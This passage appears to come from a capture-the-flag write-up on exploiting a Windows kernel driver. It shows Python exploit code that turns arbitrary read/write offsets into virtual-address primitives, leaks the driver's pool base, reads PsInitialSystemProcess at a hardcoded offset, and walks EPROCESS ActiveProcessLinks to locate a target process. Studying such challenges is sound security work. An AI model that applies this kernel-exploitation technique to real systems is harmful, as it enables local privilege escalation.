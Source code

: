 ```py  
   io.sendline(str(val).encode())  
   io.recvline()  
   io.recvline()

   skip_options()  
```

There's nothing really fancy, it only converts our offsets to the indexes that
the km part would eventually convert to offsets by itself.

Now in order to account for the allocated pool address in our calculations we
first need to know its address, and luckily for us the driver has saved the
pool base at (pool + 64), so we can just read this value and thus we would
leak the pool address.

```py  
secret_store_base: int = read_at(64)  
```

I also made these utils that automatically convert virtual kernel addresses to
the offsets from our pool and write/reads from this address.

```py  
def read_at_va(va: int) -> int:  
   return read_at(va - secret_store_base)

def write_to_va(va: int, val: int) -> None:  
   write_to(va - secret_store_base, val)  
```

In order to obtain the eprocess address of some of the system processes we
could just use PsInitialSystemProcess export from ntoskrnl that we have on our
hands.

```py  
PsInitialSystemProcess_off = 0xD107E0  
PsInitialSystemProcess = read_at_va(kernel_base + PsInitialSystemProcess_off)  
```

We also need to find our process' eprocess. \  
In order to achieve that  we can iterate over the ActiveProcessLinks of the
system process, because this process is going to be the root system process
that every other process inherits.

```py  
ActiveProcessLinks_off = 0x448  
Pid_off = 0x440

def get_process(tgt_pid: int) -> int:  
   links = PsInitialSystemProcess + ActiveProcessLinks_off  
   head = links

   while True:  
       links = read_at_va(links + 8)  
       print('[*] links', hex(links))

       if links == head:  
           print('[!] LINKS == HEAD')  
           break

       eprocess = links - ActiveProcessLinks_off  
       print('[*] eprocess', hex(eprocess))

       pid = read_at_va(eprocess + Pid_off)  
       if pid != tgt_pid:  
           continue

       return eprocess
```